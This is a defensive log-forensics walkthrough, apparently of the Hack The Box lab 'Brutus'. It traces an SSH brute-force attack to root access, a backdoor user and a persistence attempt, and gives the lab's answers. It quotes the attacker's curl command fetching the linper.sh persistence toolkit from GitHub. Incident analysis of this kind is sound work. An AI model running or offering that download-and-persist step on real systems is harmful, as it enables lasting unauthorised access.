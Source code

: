 # Brutus

The first step is to analyze the provided assets.

By examining the `auth.log` file, I identified indicators of a brute-force attack. There were many failed login attempts within a short period, which led me to determine that the attacker's IP address is `65.2.161.68`:

![Invalid user admin](./assets/01-invalid-user-admin.png)

After reviewing more logs, I confirmed that the brute-force attack was successful and that the attacker gained access to the `root` account on the server:

![Root compromised](./assets/02-root-compromised.png)

By examining the timestamps, I noticed that the attacker manually entered the credentials at `06:32:44`, after obtaining them using an automated tool:

![Manually login](./assets/03-manually-login.png)

However, I needed to determine the exact time when the attacker had an interactive terminal connected, not just when the password was accepted. To do that, I checked the `wtmp` output by running `cat wtmp.out | grep 65.2.161.68` (this displays the content of `wtmp.out` and searches for lines containing the IP `65.2.161.68`):

![Timestamp found](./assets/04-timestamp-found.png)

Something important to note here is that I am located in the **UTC-5** timezone, which is a **5-hour difference** from the Hack The Box logs, which use **UTC**. Therefore, the correct answer is `2024-03-06 06:32:45`.

To determine the session number, I checked the line following the `open session` log entry and found that the session number is `37`:

![Session number](./assets/05-session-number.png)

To find the new user the attacker added as part of their persistence strategy, I searched for the keywords `useradd`, `usermod`, and `groupadd`, and I found:

![Add user and group](./assets/06-add-user-group.png)

The logs clearly show the creation of the user `cyberjunkie`.

Next, to determine the MITRE ATT&CK sub-technique ID used, I browsed to the [MITRE ATT&CK Framework website](https://attack.mitre.org) and navigated to **Matrices => Enterprise** to locate the ID of the tactic used by the attacker. I then looked under **Persistence** and selected **Create Account** (ID T1136). Under the sub-techniques of **Create Account**, I found **Local Account**, which is the technique being used, with the ID `T1136.001`.

![Create local account MITRE framework ID](./assets/07-create-local-account-mitre-framework-id.png)

Now, to check the time the attacker's first SSH session ended, I reviewed the `auth.log` and looked for `session 37`, as `37` is the session ID found earlier. The session was closed at `06:37:24`.

![Session ended](./assets/08-session-ended.png)

Looking a few lines after, we see two clear logs indicating the execution of `sudo` commands:

![Sudo commands](./assets/09-sudo-commands.png)

These logs show that the attacker downloaded a script from a GitHub repository. The command used was `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`. This indicates that the attacker attempted to deploy additional tools on the victim machine.

## Conclusion:

The analysis confirmed a successful brute-force attack against the server, resulting in a root access from the IP `65.2.161.68`. The attacker established an interactive session, created a new user to maintain persistence and attempted to deploy additional tools.